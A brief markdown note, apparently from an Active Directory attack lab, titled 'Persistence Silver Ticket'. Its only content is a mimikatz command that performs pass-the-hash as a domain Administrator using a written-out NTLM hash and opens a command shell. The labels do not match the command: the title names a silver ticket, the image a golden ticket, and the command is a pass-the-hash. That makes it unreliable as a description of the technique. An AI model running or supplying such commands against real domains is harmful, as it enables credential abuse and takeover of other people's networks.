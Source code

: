 # Persistence Silver Ticket

![GOlden Ticket](persistence_golden_ticket.png)


## Index:
  1. [Attack](#attack)

## Attack

```
C:\AD\Tools\mimikatz.exe "privilege::debug" "sekurlsa::pth /domain:dollarcorp.moneycorp.local /user:Administrator /ntlm:af0686cc0ca8f04df42210c9ac980760 /run:cmd" "exit"
```
